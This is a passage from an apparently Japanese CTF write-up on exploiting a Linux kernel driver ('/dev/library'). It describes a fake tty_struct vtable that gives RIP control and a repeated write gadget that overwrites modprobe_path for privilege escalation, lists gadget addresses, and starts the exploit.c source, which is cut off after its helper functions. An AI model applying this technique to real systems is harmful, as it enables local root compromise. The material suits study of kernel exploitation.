 `tty_struct + 0x200`あたりにフェイクのvtableとして実行したいコードのアドレスを入れておく。あとは`ops`を書き換えるために、(オフセットとか考えるのめんどいから)全部`tty_struct + 0x200`のアドレスで上書きする。ここで必要な`tty_struct`自身のアドレスは、先程のleakの段階で入手できている。これでRIPも取れました。
![](https://i.imgur.com/z42Iu6o.png)

# overwriting modprobe_path just by repeating single gadget

さてさてさて、このあとの方針は色々とありそう。以前解いた[nutty](https://smallkirby.hatenablog.com/entry/2021/02/22/053507)では`tty_struct`の中でkROPをして`commit(pkc(0))`していた。けど、これはまぁ色々と面倒くさいし、この問題と少し状況が異なっていてstack pivotが簡単に出来なかったため却下。
上のスタックトレースは、`ioctl(ptmxfd, 0xdeadbeef, 0xcafebabe)`の結果なのだが、`RDX`/`RSI`が制御できていることが分かる。よって、`mov Q[rdx], rsi`とか`mov Q[rsi], rdx`みたいなガジェットを使うことで、任意アドレスの8byteを書き換えられる。`tty_struct`は意外と頑丈らしく、全部破壊的に書き換えたとしても正常に終了してくれるっぽいので、このガジェットを何回でも呼び出すことが出来る。よって、これで`modprobe_path`を書き換えれば終わり。
```gadget.txt
0xffffffff8113e9b0: mov qword [rdx], rsi ; ret  ;  (2 found)
0xffffffff81018c30: mov qword [rsi], rdx ; ret  ;  (4 found)
```

やっぱりこの方法めっちゃ楽。

# exploit

```exploit.c
#include "./exploit.h"
#include <fcntl.h>
#include <sched.h>

/*********** commands ******************/
#define DEV_PATH "/dev/library"   // the path the device is placed
#define CMD_ADD			0x3000
#define CMD_REMOVE		0x3001
#define CMD_REMOVE_ALL	0x3002
#define CMD_ADD_DESC	0x3003
#define CMD_GET_DESC 	0x3004

#define BOOK_DESCRIPTION_SIZE 0x300

/**********  types *********************/
typedef struct {
	unsigned long index;
	char* userland_pointer;
} Request;

#define GET_DESC_REGION          0x40000
#define ADD_DESC_REGION    0x50000

/*********** globals ****************/

char bigbuf[PAGE] = {0};
int fd, ttyfd;
ulong kbase = 0, tty_addr = 0;
scu mov_addr_rdx_rsi = 0x13e9b0;

// (END globals)

/********** utils ******************/

void add_book(int fd, ulong index) {
  Request req = {.index = index,};
  assert(ioctl(fd, CMD_ADD, &req) == 0);
}

void remove_all(int fd) {
  assert(ioctl(fd, CMD_REMOVE_ALL, remove_all) == 0);
}
```